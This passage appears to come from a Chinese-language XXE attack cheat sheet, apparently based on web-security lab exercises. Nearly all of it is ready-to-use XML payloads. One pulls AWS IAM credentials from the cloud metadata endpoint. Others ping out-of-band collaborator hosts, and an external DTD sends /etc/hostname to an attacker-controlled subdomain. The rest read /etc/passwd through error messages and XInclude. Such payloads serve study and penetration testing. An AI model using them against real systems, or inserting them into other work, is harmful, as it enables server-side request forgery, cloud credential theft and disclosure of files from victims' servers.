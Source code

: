 ##### 2、普通参数外部实体，回显SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

##### 3、普通参数外部实体，无回显SSRF：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://szvf6640kwamspb20mzo50apngt8hy5n.oastify.com/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

##### 4、实体参数外部实体，无回显SSRF：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://8nw9bwmptk84otxllaxw5wpia9g04rsg.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

##### 5、内部dtd：实体参数外部实体引用外部dtd、外部dtd：实体参数外部实体嵌套实体参数外部实体

外部dtd:

1. 无回显读取敏感文件

   ```
   <!ENTITY % file SYSTEM "file:///etc/hostname">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
   %eval;
   %exfil;
   ```

2. 回显读取敏感文件

   ```
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
   %eval;
   %exfil;
   ```

内部dtd:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

##### 6、XInclude，插入xml主体，回显敏感文件

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
